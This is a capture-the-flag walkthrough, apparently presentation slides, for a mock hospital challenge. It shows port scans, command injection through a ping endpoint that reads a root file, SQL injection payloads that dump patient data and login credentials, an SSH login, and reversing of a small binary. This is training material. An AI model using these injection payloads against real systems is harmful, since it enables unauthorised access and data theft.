




# max-ctf

A walkthrough of some of the problems of East Coast Hospital CTF

## CTF by

[Maxwell Harley](https://maxh.io/)

---

## Presentation By

[Weston Belk](www.westonbelk.com)

# Base Information Gathering

## 10.13.37.3

### nmap

	Nmap scan report for 10.13.37.3
	Host is up (0.048s latency).
	Not shown: 131029 filtered ports, 39 open|filtered ports
	PORT     STATE  SERVICE VERSION
	22/tcp   closed ssh
	80/tcp   open   http?
	2222/tcp open   ssh     OpenSSH 6.6.1 (protocol 2.0)
	7777/tcp open   cbt?

## 10.13.37.4

### nmap

	Nmap scan report for 10.13.37.4
	Host is up (0.075s latency).
	Not shown: 131034 filtered ports, 35 open|filtered ports
	PORT     STATE SERVICE VERSION
	22/tcp   open  ssh     (protocol 2.0)
	80/tcp   open  http?
	2222/tcp open  ssh     OpenSSH 6.6.1 (protocol 2.0)

# 10.13.37.3, Port 80

## Nikto

	- Nikto v2.1.5
	---------------------------------------------------------------------------
	+ Target IP:          10.13.37.3
	+ Target Hostname:    10.13.37.3
	+ Target Port:        80
	+ Start Time:         2017-07-10 19:55:50 (GMT-4)
	---------------------------------------------------------------------------
	+ Server: No banner retrieved
	+ Retrieved x-powered-by header: Express
	+ Server leaks inodes via ETags, header found with file /, fields: 0xW/6d9 0xKy3izusou2n4MfnCd3+kuYRt+EU 
	+ The anti-clickjacking X-Frame-Options header is not present.
	+ Uncommon header 'flag' found, with contents: 264a9f0126d688
	+ No CGI Directories found (use '-C all' to force check all possible dirs)
	+ Allowed HTTP Methods: GET, HEAD 
	+ Uncommon header 'content-security-policy' found, with contents: default-src 'self'
	+ Uncommon header 'x-content-type-options' found, with contents: nosniff
	+ 4197 items checked: 19 error(s) and 7 item(s) reported on remote host
	+ End Time:           2017-07-10 20:04:15 (GMT-4) (505 seconds)
	---------------------------------------------------------------------------
	+ 1 host(s) tested

## Take a step back

	"ping " + our_input

* We want our input to be any arbitrary command.
* We do not care about the output of ping.

## Let's choose a consistent target

Request:

	curl --data "ip=localhost" \
	http://10.13.37.3/api/isUp
	
Response:

	{
	   "message" : "\nPING localhost (127.0.0.1): 56 data bytes\n64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.063 ms\n64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.072 ms\n64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.070 ms\n--- localhost ping statistics ---\n3 packets transmitted, 3 packets received, 0% packet loss\nround-trip min/avg/max/stddev = 0.063/0.068/0.072/0.000 ms\n"
	}

### Let's try some command injection
	
Request:
	
	curl --data "ip=localhost;whoami" \
	http://10.13.37.3/api/isUp

Response:

	{
		"error" : "You cannot use ';', '&&' or '||' here."
	}

### Well what if we just pipe it?

Request:

	curl --data "ip=localhost | whoami" \
	http://10.13.37.3/api/isUp

Response:

	{
		"message" : "root"
	}

### Let's check out our user dir.

Request:

	curl --data "ip=localhost | ls /root" \
	http://10.13.37.3/api/isUp

Response:

	{
		"message" : "pwd.txt"
	}

### That looks like a fun file!

Request:

	curl --data "ip=localhost | cat /root/pwd.txt" \
	http://10.13.37.3/api/isUp

Response:

	{
		"message" :
			"I just keep forgetting my passwords.
			Here is another: 'W2zNJBGpT5FSvZGF'"
	}

# 10.13.37.4, Port 80

## Website

## Initial discovery

Searching sends a GET request similar to this.

	GET /?patientID=00000&password=
	Host: 10.13.37.4

We get a response stating that we are not authorized.

## Initial discovery

If we use the password found in the source of the HTML file we get information back about the patient.

	GET /?patientID=48898&password=mTvkHrQdaPHLp477
	Host: 10.13.37.4

## Getting More

The patientID field is SQL injectable.

By doing some basic SQL injection we can dump all the patients information
	
	' OR '1' = '1'--

And we find an interesting entry:

	{
		"id": "zzzzzzzzzz",
		"name": "Dan Holmes",
		"street": "TmSZSqLC9pk9cn25",
		"email": "dan@ecoasthospital.com"
	}

## Even More

Let's dump all the tables

	' UNION SELECT TABLE_NAME, COLUMN_NAME, DATA_TYPE, '_' FROM INFORMATION_SCHEMA.COLUMNS--

And we find a particularly juicy one

	{
		"id": "unix_login",
		"name": "username",
		"street": "character varying",
		"email": "_"
	},

## Bingo!

	http://10.13.37.4/api/viewPatient?patientID=' UNION SELECT username, password, type, '_' FROM unix_login--&password=mTvkHrQdaPHLp477

	username: ecoast
	password: bc60f3cff8197896
	type:     postfix_mailserver

# ecoast@10.13.37.4, Port 22

## Login

Connect over ssh using the credentials we found

	ssh ecoast@10.13.37.4
	password: bc60f3cff8197896

From the MOTD and the hints from the unix_login table we can assume there is something related to mail on this box.

Exploring common mail directories leads us to a secret message in a hidden folder.

## Secretmail

	Date: Thu, 2 Jun 2016 10:52:24 -0400
	From: Dan <dan@ecoasthospital.com>
	To: "=?utf-8?Q?augeocacher=40gmail.com?=" <secret@evilperson.com>
	Subject: Import Email
	X-Mailer: Airmail (348)
	MIME-Version: 1.0
	Content-Type: multipart/mixed; boundary="57504829_1bd8808c_f83"

	--57504829_1bd8808c_f83
	Content-Type: multipart/alternative; boundary="57504829_4a0e6c7f_f83"

	--57504829_4a0e6c7f_f83
	Content-Type: text/plain; charset="utf-8"
	Content-Transfer-Encoding: 7bit
	Content-Disposition: inline

	Make sure nobody sees this

	--57504829_4a0e6c7f_f83
	Content-Type: text/html; charset="utf-8"
	Content-Transfer-Encoding: quoted-printable
	Content-Disposition: inline

	<html><head><style>body=7Bfont-family:Helvetica,Arial;font-size:13px=7D</=
	style></head><body style=3D=22word-wrap: break-word; -webkit-nbsp-mode: s=
	pace; -webkit-line-break: after-white-space;=22>
Make sure nobody sees =
	this
 

</body></html>
	--57504829_4a0e6c7f_f83--

	--57504829_1bd8808c_f83
	Content-Type: application/octet-stream
	Content-Transfer-Encoding: base64
	Content-Disposition: attachment; filename="open"

	L3RtcC9iaW5hcnkK
	f0VMRgIBAQAAAAAAAAAAAAIAPg...
	(a lot more base64 encoded garbage)

[Download Full File](files/secretmail)

## Cracking the Code

At the bottom we find a base64 encoded file.

Save it to a file and decode it to get our binary.

	./base64 --decode secretmail.base64 >secretmail.bin

## Cracking the Code

After taking a peek in radare2 we determine that it probably isn't malware, but we run it in a VM anyways.

	unpriv@MALWARE-$ chmod +x secretmail.bin

	unpriv@MALWARE-$ ./secretmail.bin

		You loose!

Not helpful. Looks like it's time for some in-depth static analysis

## Static Analysis

Let's open up the binary in radare2

	r2 -AAAA secretmail.bin

	[x] Analyze all flags starting with sym. and entry0 (aa)
	[x] Analyze len bytes of instructions for references (aar)
	[x] Analyze function calls (aac)
	[x] Emulate code to find computed references (aae)
	[x] Analyze consecutive function (aat)
	[x] Type matching analysis for all functions (afta))unc.* functions (aan)
	[x] Type matching analysis for all functions (afta)
	 -- How about Global Thermonuclear War?

	[0x004005e0]> 

## Static Analysis

	[0x004005e0]> pdf @main
	            ;-- main:
	/ (fcn) main 200
	|   main ();
	|           ; var int local_4ch @ rbp-0x4c
	|           ; var int local_48h @ rbp-0x48
	|           ; var int local_40h @ rbp-0x40
	|           ; var int local_8h @ rbp-0x8
	|              ; DATA XREF from 0x004005fd (entry0)
	|           0x004006d6      55             push rbp
	|           0x004006d7      4889e5         mov rbp, rsp
	|           0x004006da      4883ec50       sub rsp, 0x50               ; 'P'
	|           0x004006de      64488b042528.  mov rax, qword fs:[0x28]    ; [0x28:8]=0x1af0 ; '('
	|           0x004006e7      488945f8       mov qword [local_8h], rax
	|           0x004006eb      31c0           xor eax, eax
	|           0x004006ed      be24084000     mov esi, 0x400824           ; "wb" ; const char*
	|           0x004006f2      bf27084000     mov edi, str._home_ecoast_work.txt ; 0x400827 ; "/home/ecoast/work.txt" ; const char * filename
	|           0x004006f7      e8b4feffff     call sym.imp.fopen          ; file*fopen(const char *filename,
	|           0x004006fc      488945b8       mov qword [local_48h], rax
	|           0x00400700      488d55c0       lea rdx, [local_40h]        ; ...
	|           0x00400704      488b45b8       mov rax, qword [local_48h]
	|           0x00400708      be3d084000     mov esi, 0x40083d           ; "%s" ; const char
	|           0x0040070d      4889c7         mov rdi, rax                ; FILE *stream
	|           0x00400710      b800000000     mov eax, 0
	|           0x00400715      e846feffff     call sym.imp.__isoc99_fscanf ; int fscanf(FILE *stream,
	|           0x0040071a      488b45b8       mov rax, qword [local_48h]
	|           0x0040071e      4889c7         mov rdi, rax                ; FILE *stream
	|           0x00400721      e85afeffff     call sym.imp.fclose         ; int fclose(FILE *stream)
	|           0x00400726      488d45c0       lea rax, [local_40h]
	|           0x0040072a      4889c7         mov rdi, rax                ; const char * str
	|           0x0040072d      e88efeffff     call sym.imp.atoi           ; int atoi(const char *str)
	|           0x00400732      8945b4         mov dword [local_4ch], eax
	|           0x00400735      8145b4c80000.  add dword [local_4ch], 0xc8
	|           0x0040073c      8b4db4         mov ecx, dword [local_4ch]
	|           0x0040073f      bac36ae071     mov edx, 0x71e06ac3
	|           0x00400744      89c8           mov eax, ecx
	|           0x00400746      f7ea           imul edx
	|           0x00400748      c1fa09         sar edx, 9
	|           0x0040074b      89c8           mov eax, ecx
	|           0x0040074d      c1f81f         sar eax, 0x1f
	|           0x00400750      29c2           sub edx, eax
	|           0x00400752      89d0           mov eax, edx
	|           0x00400754      8945b4         mov dword [local_4ch], eax
	|           0x00400757      8b55b4         mov edx, dword [local_4ch]
	|           0x0040075a      89d0           mov eax, edx
	|           0x0040075c      c1e002         shl eax, 2
	|           0x0040075f      01d0           add eax, edx
	|           0x00400761      c1e002         shl eax, 2
	|           0x00400764      8945b4         mov dword [local_4ch], eax
	|           0x00400767      837db464       cmp dword [local_4ch], 0x64 ; [0x64:4]=0 ; 'd'
	|       ,=< 0x0040076b      750c           jne 0x400779
	|       |   0x0040076d      bf40084000     mov edi, str.You_win_       ; 0x400840 ; "You win!" ; const char * s
	|       |   0x00400772      e8f9fdffff     call sym.imp.puts           ; int puts(const char *s)
	|      ,==< 0x00400777      eb0a           jmp 0x400783
	|      |`-> 0x00400779      bf49084000     mov edi, str.You_loose_     ; 0x400849 ; "You loose!" ; const char * s
	|      |    0x0040077e      e8edfdffff     call sym.imp.puts           ; int puts(const char *s)
	|      |       ; JMP XREF from 0x00400777 (main)
	|      `--> 0x00400783      b800000000     mov eax, 0
	|           0x00400788      488b75f8       mov rsi, qword [local_8h]
	|           0x0040078c      644833342528.  xor rsi, qword fs:[0x28]
	|       ,=< 0x00400795      7405           je 0x40079c
	|       |   0x00400797      e8f4fdffff     call sym.imp.__stack_chk_fail ; void __stack_chk_fail(void)
	|       `-> 0x0040079c      c9             leave
	\           0x0040079d      c3             ret

[View](files/secretmail.bin)

## Program Overview

1. The program takes some sort of input then converts it to an integer, x
2. The program does some transformations on x
3. If x = 0x64 { You win! } Else { You Loose! }

This means that the goal is the input, not the output.

## Determine Input

	0x004006ed      be24084000     mov esi, 0x400824           ; "wb" ; const char*
	0x004006f2      bf27084000     mov edi, str._home_ecoast_work.txt ; 0x400827 ; "/home/ecoast/work.txt" ; const char * filename
	0x004006f7      e8b4feffff     call sym.imp.fopen          ; file*fopen(const char *filename,

Which means we're opening the file at /home/ecoast/work.txt for writing.

But then...

	0x00400715      e846feffff     call sym.imp.__isoc99_fscanf ; int fscanf(FILE *stream,

That doesn't seem quite right. 🤔

## Dan is a Bad Programmer
### Part 1

Open the binary in a hex editor and change 'wb' to 'rb'

## Trying Our New Binary

From we can take a peek at the ending value

	unpriv@MALWARE-$ echo "353535" >/home/ecoast/work.txt

	unpriv@MALWARE-$ radare2 -AAAA -d ./secretmail.patched

	[0x7f230f3fadd0]> db 0x00400767

	[0x7f230f3fadd0]> dc
	Selecting and continuing: 11210
	hit breakpoint at: 400767

This puts us at

	0x00400764      8945b4         mov dword [local_4ch], eax
	;-- rip:
	0x00400767 b    837db464       cmp dword [local_4ch], 0x64 ; [0x64:4]=-1 ; 'd' ; 100

## Trying Our New Binary

Our transformed value is in the eax register

	[0x00400767]> dr?eax
	0x000017fc

	(6140 in decimal)

After some experimenting I determined that an input of 6000 gets us our desired output.

	You win!

## Dan is a Bad Programmer
### Part 2

After further experimenting all values in the interval [5000, 6705] are "valid"

This didn't seem right so I contacted Max and he confirmed that this was not intended behavior.

5555 was intended to be the only correct answer

## Dan is a Bad Programmer
### Part 2

Here is the source code to secretmail

	#include <stdio.h>
	#include <stdlib.h>

	int main() {
		FILE *fp;
		char buff[50];
		int val;
		fp=fopen("/home/ecoast/work.txt", "wb");
		fscanf(fp, "%s", buff);
		fclose(fp);

		val = atoi(buff);
		val += 200;
		val /= 1151; // Dan is president of Clemson acm btw
		val *= 20;

		if(val == 100){
			printf("You win!\n");
		} else {
			printf("You loose\n");
		}
	}

Integer math is fun!

# Closing Thoughts

This was my first real ctf. 

The binary analysis part was probably my favorite part even though I had issues with it at first. 

Overall, I had a good time and learned a lot.

## CTF by

[Maxwell Harley](https://maxh.io/)

---

## Presentation By

[Weston Belk](www.westonbelk.com)

-

Brought to you by [Clemson Cyber Security](https://cucyber.net/)